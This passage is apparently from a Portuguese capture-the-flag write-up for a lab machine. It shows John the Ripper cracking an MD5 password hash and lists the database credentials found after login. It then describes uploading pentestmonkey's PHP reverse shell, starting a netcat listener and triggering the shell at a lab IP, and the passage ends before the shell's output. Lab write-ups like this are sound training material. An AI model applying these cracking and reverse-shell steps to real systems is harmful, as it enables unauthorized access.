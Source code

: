 ```
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
```

Descobri ser a MD5 e usei o john the ripper para quebrar essa hash

```
┌──(root㉿kali)-[/home/ellie/Desktop]
└─# john --format=Raw-MD5 pass.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)     
1g 0:00:00:00 DONE (2022-04-21 21:19) 7.692g/s 259938p/s 259938c/s 259938C/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

Após logar, comecei a procurar por arquivos na página que me dessem algum indício ou algo que poderia utilizar.

Informações conquistadas:
- LazyAdmin parece residir em Los Angeles EUA
- Banco de dados
	- Database : mysql
	- Database Host : localhost
	- Database Port : 3306
	- Database Account : rice
	- Database Password : randompass
	- Database Name: website
	- Database Prefix: v
	- Tables:
		-  v_attachment
		- v_category
		- v_comment
		- v_item_data
		- v_item_plugin
		- v_links
		- v_options
		- v_posts
- ![[Pasted image 20220423124056.png]]
- Descobri também um local para rodar script .php. Com isso, utilizei um script pronto do [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), que havia um arquivo próprio para isso. Utilizei, apenas alterando o ip e a porta.

Rodei o netcat usando o ```nc -lvp 443``` e o seguinte apareceu: ``listening on [any] 443 ...``

O meu netcat estava escutando a porta especificada, mas ainda não estava conectado.

Ao colocar o reverse shell no site, fui até a página que tinha os arquivos ```http://10.10.221.68/content/inc/ads/``` e cliquei no shell.php para executa-lo. A página no netcat me deu a seguinte resposta:

